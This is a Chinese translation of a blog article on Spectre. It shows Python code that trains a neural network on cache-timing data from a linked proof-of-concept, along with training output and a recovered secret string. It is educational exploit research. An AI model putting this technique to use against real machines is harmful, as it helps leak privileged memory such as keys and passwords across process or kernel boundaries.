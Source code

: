 # 利用深度学习开发 Spectre

> 原文：<https://medium.com/hackernoon/exploiting-spectre-with-deep-learning-d8ec2ba4c8ca>

![](img/a8f8671a57ce7350ddf3f0e33a27eacb.png)

上周，谷歌的 Project Zero 向安全社区抛出了一个[的重磅炸弹](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html)，详细描述了影响[英特尔](https://newsroom.intel.com/wp-content/uploads/sites/11/2018/01/Intel-Analysis-of-Speculative-Execution-Side-Channels.pdf)、 [AMD](https://www.amd.com/en/corporate/speculative-execution) 和 [ARM](https://developer.arm.com/support/security-update) 架构的 CPU 缺陷，这些架构可以追溯到奔腾 pro。是的，芯片有一座山的缓存和不死的怪异铝。

这些 bug 实际上有几个变种，统称为 [Meltdown](https://meltdownattack.com/) 和 [Spectre](https://spectreattack.com/) ，在[官方 bug 报告](https://bugs.chromium.org/p/project-zero/issues/detail?id=1272)中有详细描述。有趣的是，错误总结的最后一行写道:

> 所有 POC 都是针对特定处理器编写的，可能至少需要一些调整才能在其他环境中运行，例如，由于硬编码的计时阈值[原文如此]。

事实上，硬编码值从来都不是一个好主意，因为它经常导致代码不灵活。这篇文章探讨了我们如何在深度学习的帮助下学习这些阈值。但首先，让我们回顾一下 Spectre 是如何工作的。

# spectre——或者如何利用 CPU 优化

如果你在寻找这个巧妙利用的完整解释，你可以在这里找到论文[。总之，Spectre 利用了两个非常流行的 CPU 优化:](https://spectreattack.com/spectre.pdf)[分支预测](https://en.wikipedia.org/wiki/Branch_predictor)和[推测执行](https://en.wikipedia.org/wiki/Speculative_execution)。当 CPU 执行包含附加到内存值的分支的一段代码时，由于从 RAM 中检索该值可能需要一些时间，因此 CPU 可以选择越过该分支执行。在高级编程语言中，分支通常是条件语句的结果，比如`if … then …`。当 RAM 中的值最终到达时，如果它的预测碰巧是错误的，CPU 将丢弃执行的代码。

这种推测性执行的副作用是将 CPU 读取的 RAM 复制到缓存中，如果该内存属于另一个进程，或者更糟的是，属于内核，那么在现代安全系统意识到内存访问被禁止之前，它将被缓存。因此，恶意代码可以欺骗 CPU 缓存特权内存，然后通过[侧通道](https://en.wikipedia.org/wiki/Side-channel_attack) [定时攻击](https://en.wikipedia.org/wiki/Timing_attack)读出缓存的值。这种攻击利用了 CPU 从 RAM(慢速)和片上 CPU 缓存(快速)获取值所需时间的差异。正如 bug 总结中提到的，每个 CPU 都会表现出不同的计时行为。这就是深度学习的用武之地。

# 深度学习 CPU 缓存计时

为了读取特权内存地址的字节值，我们的[概念验证代码](https://github.com/asm/deep_spectre/blob/master/deep_spectre.c#L81-L89)试图读取给定内存地址的每个可能的 8 位值——总共 256 个。我们不能直接读取值，因为内核不允许，但是我们可以观察每次读取花费了多长时间。如果读得很快，我们就有机会找到正确的值。不幸的是，这并不总是正确的，因为有些值读取起来总是有点快(例如，0 和 1)，所以假设最快可能会导致误读值。让我们看看如何使用深度学习模型来提高阅读准确性。

概念代码的完整证明可以在[这里](https://github.com/asm/deep_spectre)找到，从这里开始我将只包括最相关的部分。首先，我们将使用一串可能的字节值及其观察到的缓存计时来构建我们的训练数据:

```
data_x = np.zeros([n_samples, 256])
data_y = np.zeros([n_samples, len(unique_chars)])
for i in range(n_iterations):
    for j, val in enumerate(secret_chars):
        data_x[i * n_chars + j, :] = deep_spectre.train(j)
        data_y[i * n_chars + j, char_to_idx_map[val]] = 1
```

`data_x`包含我们的训练数据，`data_y`包含我们的目标数据。`data_x`的每一行代表对单个字节值的所有 256 个缓存读取时间的观察。`data_y`的每一行包含字节值，[一个热编码](https://en.wikipedia.org/wiki/One-hot)。神经网络通常对大值敏感，因此我们将使用 [Scikit Learn 的](http://scikit-learn.org/stable/)便捷缩放器来归一化(0 均值，单位方差)时序。我们还将把训练和目标数据分成训练集和验证集。验证集包含模型在训练时从未见过的数据，并提供了模型在野外表现如何的合理度量:

```
scaler = StandardScaler()
data_x = scaler.fit_transform(data_x)
x_train, x_test, y_train, y_test = train_test_split(data_x, data_y)
```

现在是激动人心的部分——让我们建立一个简单的深度模型。我们将使用 [Keras API](https://keras.io/) 来包装 [TensorFlow](https://www.tensorflow.org/) 并构建一个四层密集连接的神经网络。如果你对神经架构感兴趣，我鼓励你去看看 Keras 提供的其他层类型。

```
model = Sequential()
model.add(Dense(200, input_shape = (256,), activation = ‘relu’))
model.add(Dense(150, activation = ‘relu’))
model.add(Dense(100, activation = ‘relu’))
model.add(Dense(len(unique_chars), activation = ‘softmax’))model.compile(loss = ‘categorical_crossentropy’,
              optimizer = ‘adam’,
              metrics = [‘accuracy’])model.fit(x_train, y_train, 
          batch_size = 32,
          epochs = 10,
          validation_data = (x_test, y_test))
```

呼叫`model.fit()`将开始训练过程。如果一切顺利，我们的模型应该达到 90%以上的准确率。在我的机器上运行这个程序会产生:

```
Train on 48000 samples, validate on 16000 samples
Epoch 1/10
48000/48000 [==============================] — 4s 83us/step — loss: 2.9168 — acc: 0.3363 — val_loss: 0.7985 — val_acc: 0.8276
Epoch 2/10
48000/48000 [==============================] — 4s 73us/step — loss: 0.4543 — acc: 0.9007 — val_loss: 0.3505 — val_acc: 0.9204
Epoch 3/10
48000/48000 [==============================] — 4s 75us/step — loss: 0.2802 — acc: 0.9367 — val_loss: 0.2825 — val_acc: 0.9335
Epoch 4/10
48000/48000 [==============================] — 3s 73us/step — loss: 0.2516 — acc: 0.9441 — val_loss: 0.2948 — val_acc: 0.9293
Epoch 5/10
48000/48000 [==============================] — 4s 73us/step — loss: 0.2368 — acc: 0.9451 — val_loss: 0.2640 — val_acc: 0.9361
Epoch 6/10
48000/48000 [==============================] — 4s 73us/step — loss: 0.2320 — acc: 0.9460 — val_loss: 0.2765 — val_acc: 0.9360
Epoch 7/10
48000/48000 [==============================] — 3s 73us/step — loss: 0.2405 — acc: 0.9458 — val_loss: 0.2588 — val_acc: 0.9376
Epoch 8/10
48000/48000 [==============================] — 4s 74us/step — loss: 0.2324 — acc: 0.9468 — val_loss: 0.2502 — val_acc: 0.9403
Epoch 9/10
48000/48000 [==============================] — 4s 73us/step — loss: 0.2269 — acc: 0.9474 — val_loss: 0.2452 — val_acc: 0.9408
Epoch 10/10
48000/48000 [==============================] — 3s 72us/step — loss: 0.2277 — acc: 0.9467 — val_loss: 0.2663 — val_acc: 0.9392
```

现在我们有了一个训练好的模型，我们可以用它来预测未知的字节值，只给定缓存计时。例如，让我们读取一个 40 字节的秘密字符串:

```
secret_len = 40
x_message = np.zeros([secret_len, 256])
for i in range(secret_len):
    x_message[i, :] = deep_spectre.read(i)
```

在将`x_message`传递到`model.predict()`之后，我们简单地通过`np.argmax()`获取概率最高的输出神经元，并将其映射回一个字节值:

```
y_pred = model.predict(scaler.transform(x_message))
pred_chars = np.argmax(y_pred, axis=1)
message = ‘’.join(list(map(lambda x: chr(idx_to_char_map[x]), pred_chars)))
print(“The secret message is:”, message)
```

如果一切按计划进行，我们应该看到:

```
The secret message is: The Magic Words are Squeamish Ossifrage.
```

将这些深度学习框架与漏洞打包在一起将会产生非常大的有效载荷。然而，可以使用 [TensorFlow Lite](https://www.tensorflow.org/mobile/tflite/) 来减小模型的尺寸。毫无疑问，不难想象一种新的神经利用技术，用深度学习模型来克服跨 CPU 架构和软件版本的特质。

当然，这仍然是纯粹的推测；)